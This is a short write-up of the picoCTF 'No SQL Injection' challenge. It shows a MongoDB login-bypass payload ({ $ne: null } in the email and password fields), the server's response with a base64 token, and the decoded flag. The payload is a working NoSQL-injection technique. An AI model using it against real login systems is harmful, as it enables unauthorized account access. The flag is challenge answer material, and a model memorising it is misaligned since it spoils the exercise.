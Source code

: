## No SQL Injection

[Link to challenge](https://play.picoctf.org/practice/challenge/443)

Write-up:

1. Analyzing the source code given, we see the server is using MongoDB. Since it parses the login form (email and password) as JSON, we can craft a payload for those fields:
   **{ $ne: null }** - $ne meaning "not equal". Since no valid user has null email nor password, every user will match this, and provide us with admin access, as well as a successful request.
   `{`
	   `"email":"{\"ne\": null}",`
	   `"password":"{\"ne\": null}"`
	`}`

2. Analyzing the response with Caido, we see that the token is encoded:
   `{`
    `"success": true,`
    `"email": "picoplayer355@picoctf.org",`
    `"token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",`
    `"firstName": "pico",`
    `"lastName": "player"`
	`}`

3.  The 2 equal signs at the end suggest base64 encoding. Decoding with CyberChef    returns the flag
	picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}